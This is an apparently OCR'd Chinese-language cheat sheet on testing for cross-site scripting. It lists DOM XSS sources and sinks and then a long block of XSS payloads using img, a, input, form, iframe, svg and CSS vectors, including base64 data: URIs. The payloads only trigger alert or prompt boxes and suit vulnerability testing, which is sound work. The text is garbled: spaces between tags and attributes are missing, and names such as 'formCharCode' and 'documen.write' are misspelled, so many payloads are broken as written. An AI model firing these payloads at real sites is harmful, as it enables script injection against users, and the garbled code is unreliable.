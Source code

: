 以下是一些经常出现domxss的关键语句  
  
document.referer属性  
  
window.name属性  
  
location属性  
  
innerHTML属性  
  
documen.write属性  
### xss测试语句  
  
在网站是否存在xss漏洞时，应该输入一些标签如测试语句查看符号和关键字是否被过滤，如果没过滤，很大可能存在xss漏洞。  
  
常用的测试语句  
  
<h5>1</h5>       <h5>1</h5> 会以第五级标题的样式显示数字“1”。  
  
<span>1</span>    <span> 是一个行内元素标签，<span>1</span> 与直接写“1”在视觉上没有区别。  
  
<script>console.log(1);</script>   console.log(1);在浏览器的控制台输出数字“1”，常用于调试目的。   
  
常见标签  
```
<script>alert(1)</script>
<img>标签
<imgsrc=javascript:alert(“xss”)>
<IMGSRC=javascript:alert(String.formCharCode(88,83,83))>
<imgscr=”URL”style=’Xss:expression(alert(/xss));’
<imgsrc=”x”onerror=alert(1)>
<imgsrc=”1″onerror=eval(“alert(‘xss’)”)>
<imgsrc=1onmouseover=alert(‘xss’)>
<a>标签
标准格式<ahref=”https://www.baidu.com”>baidu</a>
<ahref=”javascript:alert(‘xss’)”>aa</a>
<ahref=javascript:eval(alert(‘xss’))>aa</a>
<ahref=”javascript:aaa”onmouseover=”alert(/xss/)”>aa</a>
<ahref=””onclick=eval(alert(‘xss’))>aa</a>
<ahref=kycg.asp?ttt=1000onmouseover=prompt(‘xss’)y=2016>aa</a>
<input>标签
<inputvalue=””onclick=alert(‘xss’)type=”text”>
<inputname=”name”value=””onmouseover=prompt(‘xss’)bad=””>
<inputname=”name”value=””><script>alert(‘xss’)</script>
<form>标签
<formaction=javascript:alert(‘xss’)method=”get”>
<formaction=javascript:alert(‘xss’)>
<formmethod=postaction=aa.asp?onmouseover=prompt(‘xss’)>
<formmethod=postaction=aa.asp?onmouseover=alert(‘xss’)>
<formaction=1onmouseover=alert(‘xss)>
<formmethod=postaction=”data:text/html;base64,<script>alert(‘xss’)</script>”>
<formmethod=postaction=”data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=”>
<iframe>标签
<iframesrc=javascript:alert(‘xss’);height=5width=1000/><iframe>
<iframesrc=”data:text/html,<script>alert(‘xss’)</script>”></iframe>
<iframesrc=”data:text/html;base64,<script>alert(‘xss’)</script>”>
<iframesrc=”data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=”>
<iframesrc=”aaa”onmouseover=alert(‘xss’)/><iframe>
<iframesrc=”javascript:prompt(xss)”></iframe>
<svg>标签
<svgonload=alert(1)>
CSS
<img STYLE=”background-image:url(javascript:alert(‘XSS’))”>
(1)普通的XSSJavaScript注入
(2)IMG标签XSS使用JavaScript命令
(3)IMG标签无分号无引号
(4)IMG标签大小写不敏感
(5)HTML编码(必须有分号)
```